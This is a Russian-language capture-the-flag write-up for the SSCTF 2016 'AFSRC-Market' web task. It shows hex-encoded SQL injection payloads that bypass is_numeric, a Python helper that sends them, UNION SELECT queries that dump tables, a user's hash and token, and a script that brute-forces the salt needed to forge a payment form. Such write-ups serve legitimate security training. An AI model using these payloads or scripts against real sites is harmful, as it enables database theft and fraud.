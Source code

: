 SSCTF 2016 quals Write-up
=====
AFSRC-Market (Web, 500p)
-----

![Главная страница][main_page]

Просмотрев главную страницу становится понятно, что форма поиска не функционирует.
При попытке добавить какой-либо товар в корзину появляетя просьба войти на сайт, и
происходит редирект на страницу входа.
При нажатии на сами товары проиcходит переход по ссылке `https://security.alipay.com/`.

![Please login~~~~~~][alert_msg]

![Страница входа][login_page]

На странице входа требуется ввести логин, пароль и капчу. Попытки использовать различные
служебные символы не приводят к неожиданному поведению сайта.
Перейдем к странице регистрации. Попробуем зарегистрировать нового пользователя.

![Успешная регистрация][reg_success]

![Успешный вход][login_success]

Видим сообщение об успешной регистрации, после которого нас перенаправляют на страницу входа. Пытаемся зайти и... Успех!

![Главная страница после входа][main_page_after_login]

В шапке сайта появились ссылки на профиль пользователя и кнопка выхода. Форма поиска, как и раньше, не функционирует.
Заметим, что после авторизации, в cookie было добавлено единственное значение PHPSESSID - идентификатор сессии в PHP.

![Куки][cookies]

Теперь при попытке добавить товар в корзину осуществляется переход по ссылке вида
`http://edb24e7c.seclover.com/add_cart.php?id=XXX` где вместо `XXX` - какой-нибудь номер.
После этого окрывается домашняя страница, и больше ничего не происходит.
При попытке вставить в параметр `id` различные числа всегда появляется сообщение об успешном добавлении;
при вводе символов, не являющихся цифрами, выдается сообщение об ошибке. Также допустим ввод следующего типа: `id=0x123456`.
Это говорит о том, что параметр `id`, скорее всего, проверяетя перед вставкой в запрос с помощью PHP функции `is_numeric()`.

![Страница пользователя][user_page]

Теперь рассмотрим страницу пользователя. В шапке сайта появляеся ссылка `AddMoney` на
`http://edb24e7c.seclover.com/addmoney.php`, при переходе по которой выводится сообщение `Please Input The Money`.
Также имеются 3 переключаемые вкладки: `Description`, `Additional Information`, `MyInfo`.
Первые две вкладки не так интересны, т.к. скорее всего являются статическими, а третья содержит форму
для добавления денег. Попробуем отправить форму и получим сообщение об ошибке.

![Форма пополнения счета][my_info]

![Сообщение об ошибке при отправке формы][add_money_error]

Также внимание привлекает
строка `The Last cost: 0`. Попробуем выяснить, откуда взялось значение `0`.
После небольшого исследования становится ясно, что при каждом запросе `/add_cart.php?id=XXX`, при указании верного числа в `id`, `The Last cost` принимает случайное ненулевое значение. Если `id=0x123456` или другому случайному hex, то значение обнуляется.
Итак, значение `The Last cost` каким-то образом зависит от параметра `id`, изменяемом при добавлении товара. Как уже было сказано, скорее всего значение параметра `id` проверяется с помощью функции `is_numeric()`, которая пропускает hex. Попробуем совершить простую "is_numeric bypass" sql-инъекцию через параметр `id`. Для генерации hex-значений воспользуемся `python3`
```python
>>> hex(int.from_bytes(b'1 AND 1=2 ; -- ', 'big'))
'0x3120414e4420313d32203b202d2d20'
```

![Простая sql-инъекция, обходящая is_numeric][try_simple_inj]

![Результат инъекции][simple_inj_result]

Как видно на скрине, значение стало пустым. Для удобства исследования напишем функцию на Python, которая будет
отправлять нужный запрос и получать новое значение со страницы пользователя.

```python
import requests
import re


URL = 'http://edb24e7c.seclover.com/'
regexp = r'<p>The Last cost: (.*?)</p>'
cookies = {'PHPSESSID': 'ckf3pes604sgtr3vpp3lrc62t4'}


def sql(query):
    hexed = hex(int.from_bytes(query.encode(), 'big'))
    requests.get(URL + '/add_cart.php', params={'id': hexed}, cookies=cookies)
    result = requests.get(URL + '/userinfo.php', cookies=cookies).text
    match_obj = re.search(regexp, result)
    if match_obj:
        return match_obj.group(1)

```

После чего приступим к запросам:

```python
>>> sql('1')
'1103'
>>> sql('1 AND 1=1 GROUP BY 1 ; -- ')
'4024'
>>> sql('1 AND 1=1 GROUP BY 2 ; -- ')
'7939'
>>> sql('1 AND 1=1 GROUP BY 3 ; -- ')
'501'
>>> sql('1 AND 1=1 GROUP BY 4 ; -- ')
'2059'
>>> sql('1 AND 1=1 GROUP BY 5 ; -- ')
'0'
>>> sql('1 AND 1=2 UNION SELECT "first", "second", "third", "fourth" ; -- ')
'third'
```

Итак, мы выяснили, что результатом запроса должна быть строка из четырех элементов, причем мы можем смотреть значение третьего элемента. Продолжим извлечение данных из базы.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, database(), 4 ; -- ')
'web05'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="web05"), 4 ; -- ')
'flag,user,user_goods'
```

Видим очень интересное название таблицы - `flag`.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="flag"), 4 ; -- ')
'id,flag'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT COUNT(*) FROM flag), 4 ; -- ')
'1'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id, ",", flag) FROM flag), 4 ; -- ')
'1,Tips:/2112jb1njIUIJ__tr_R/tips.txt'
```

Попробуем перейти на `/2112jb1njIUIJ__tr_R/tips.txt`.

> tips:
>
> 1、Congratulations for you !You finished 80%,Come on continue!
>
> 2、token=md5(md5(username)+salt) salt max lenght is 5(hexs)
>
> 3、Add the Money Get the Flag

Во второй подсказке говорится о каком-то токене. А чтобы получить флаг, нужно пополнить счет.
Вернемся к форме пополнение денег и посмотрим исходный код формы.

![Исходный код формы][form_source]

Видим, что в форме есть скрытый параметр `salt`. Осталось его подобрать, но для этого необходим `token`.
Вернемся к базе данных и посмотрим, какие данные хранятся в таблице пользователей.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="user"), 4 ; -- ')
'id,username,password,token,scores'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id,",",username,",",password,",",token,",",scores) FROM user WHERE username="a1ex01234"), 4 ; -- ')
'1086,a1ex01234,a1412c40bab245f4a17b675263cae6f7,d77716fc244dcdd08b5de5a82375e437,0'
```

Итак, мы получили `token`, который генерируется для каждого пользователя. Подберем подходящую соль, используя вторую подсказку. Для этого опять воспользуемся `python3`, где для перебора будет полезна библиотека `itertools`.

```python
import itertools
from hashlib import md5


username = b'a1ex01234'
hex_char = '0123456789abcdef'
token = 'd77716fc244dcdd08b5de5a82375e437'

for salt in itertools.product(hex_char, repeat=5):
    salt = ''.join(salt)
    hash_val = md5(md5(username).hexdigest().encode() + salt.encode()).hexdigest()
    if hash_val == token:
        print('Salt =', salt)
        break
```

Запустим скрипт и увидим результат: `Salt = 8b76d`. Добавим его в форму пополнения счета.

![Измененная форма][salted_form]

![Флаг][flag_is]

Получаем флаг!

[main_page]: images/main_page.png "Главная страница"
[alert_msg]: images/alert_msg.png "Предупреждение"
[login_page]: images/login_page.png "Страница входа"
[reg_success]: images/reg_succ.png "Успешная регистрация"
[try_login]: images/login.png "Попытка войти"
[login_success]: images/login_succ.png "Вход прошел успешно"
[main_page_after_login]: images/main_page_after_login.png "Главная страница после входа"
[cookies]: images/cookies.png "Cookies"
[my_info]: images/my_info.png "Форма пополнения счета"
[user_page]: images/user_page.png "Страница пользователя"
[add_money_error]: images/add_money_error.png "Ошибка при пополнении счета"
[try_simple_inj]: images/inj.png "Попытка вставить простую sql-инъекцию"
[simple_inj_result]: images/inj_res.png "Результат sql-иъекции"
[form_source]: images/form_source.png "Исходный код формы пополнения счета"
[salted_form]: images/salted_form.png "Измененная форма"
[flag_is]: images/flag_is.png "Флаг"
